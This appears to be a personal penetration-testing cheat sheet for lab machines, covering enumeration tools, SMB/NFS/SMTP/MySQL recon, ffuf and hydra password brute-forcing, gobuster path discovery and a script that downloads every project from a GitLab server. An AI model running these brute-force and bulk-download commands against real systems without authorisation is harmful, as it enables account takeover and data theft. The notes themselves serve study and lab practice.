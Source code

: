 
Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- **LES (****Linux** **Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux** **Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux** **Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Web recon:

1. robots.txt
2. framework discovery using favicon: [https://wiki.owasp.org/index.php/OWASP_favicon_database](https://wiki.owasp.org/index.php/OWASP_favicon_database)
3. sitemap.xml
4. http headers
5. email usernames: [https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt](https://github.com/nyxgeek/username-lists/blob/master/usernames-top100/usernames_gmail.com.txt)

## samba share
- [SMB enumeration - enum4linux](https://github.com/portcullislabs/enum4linux)
	- -U - get userlist  
	- -M - get machine list  
	- -N - get namelist dump (different from -U and-M)  
	- -S - get sharelist  
	- -P - get password policy information  
	- -G - get group and member list
	- -a - all of the above (full basic enumeration)
 - connecting to SMB share
```sh
# -U [name] : to specify the user
# -p [port] : to specify the port
smbclient //[IP]/[SHARE]

```

- Download samba share recursively:
```sh
smbget -R smb://10.10.165.133/anonymous
```

## NFS file system
- Details about NFS:
- [Nlog - what-is-nfs-file-share/](https://www.datto.com/blog/what-is-nfs-file-share/)
- [Archlinux - NFS](https://wiki.archlinux.org/index.php/NFS)
- [Sourceforge - NFS](http://nfs.sourceforge.net/)
- Vulnerability: 
	- root_swashing
- Tools:
	- [https://packages.ubuntu.com/jammy/nfs-common](https://packages.ubuntu.com/jammy/nfs-common)
	- nfs-common: **lockd, statd**, **showmount**, **nfsstat, gssd**, **idmapd** and **mount.nfs**

- mounting the NFS share:

```sh
mkdir /mnt/mountpoint
sudo mount -t nfs IP:share /mnt/mountpoint -nolock

/usr/sbin/showmount -e [IP] # list the NFS shares
```
  

## SMTP
- Explanation: [https://computer.howstuffworks.com/e-mail-messaging/email3.htm](https://computer.howstuffworks.com/e-mail-messaging/email3.htm)
- [SMTP Blog](https://www.afternerd.com/blog/smtp/)
- Tools:
	1. `smtp_version` in metasploit
	2. `smtp_enum` in metasploit - to enumerate users using `VRFY` and `EXPN` commands in smtp
	3. `smtp-user-enum` : [https://www.kali.org/tools/smtp-user-enum/](https://www.kali.org/tools/smtp-user-enum/)

## mysql
- install client: `sudo apt install default-mysql-client`
- tools:
	- [Nmap - mysql-enum.html](https://nmap.org/nsedoc/scripts/mysql-enum.html)
	- [exploit-db - 23081](https://www.exploit-db.com/exploits/23081)
- metasploit modules:
	1. `mysql_schemadump`
	2. `mysql_sql`
	3. `mysql_hashdump`
## subdomains:
- websites:
	- [https://ui.ctsearch.entrust.com/ui/ctsearchui](https://ui.ctsearch.entrust.com/ui/ctsearchui)
	- [https://crt.sh](https://crt.sh)
	- google: `site:*.domain.com -site:[www.domain.com](http://www.domain.com)`

- tools
	- dnsrecon: `dnsrecon -t brt -d acmeitsupport.thm`
	- [Sublist3r](https://github.com/aboul3la/Sublist3r) : `./sublist3r.py -d acmeitsupport.thm`

## ffuf

- ffuf: [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)
- Default word to replace: FUZZ
```sh
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.126.217/customers/signup -mr "username already exists"

```

- Custom word to replace: W1, W2
```

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.126.217/customers/login -fc 200

# Generate 3 digit OTP between 100 to 200
crunch 3 3 -o otp.txt -t %%% -s 100 -e 200 

```

- Filtering
```sh
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.196.243


# Filter by response size
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.196.243 -fs {size}

```

## hydra brute force password:
```sh
hydra -l <username> -P <full path to pass> 10.10.73.242 -t 4 ssh

hydra -l user -P passlist.txt ftp://10.10.73.242

hydra -l <username> -P <wordlist> 10.10.73.242 http-post-form "/:username=^USER^&password=^PASS^:incorrect" -V

hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.237.241 http-post-form “/login.php:username=^USER^&password=^PASS^:incorrect" -V

  
hydra -l admin -P ./SecLists/Passwords/500-worst-passwords.txt 'http-get://enum.thm/labs/basic_auth/:A=BASIC:S=200'
```

## GoBuster - path enumeration
```sh
# directory enumeration:** 
gobuster dir -u "http://www.example.thm" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r

# dns enumeration:** 
gobuster dns -d example.thm -w /usr/share/wordlists/SecLists/Discovery/****DNS****/subdomains-top1million-5000.txt

# vhost enumeration:** 
gobuster vhost -u "http://MACHINE_IP" --domain example.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320 

```

## Public gitlab repos
```python
import gitlab
import uuid
  
# Create a Gitlab connection
gl = gitlab.Gitlab("http://gitlab.tryhackme.loc/", private_token='REPLACE_ME')
gl.auth()

# Get all Gitlab projects
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```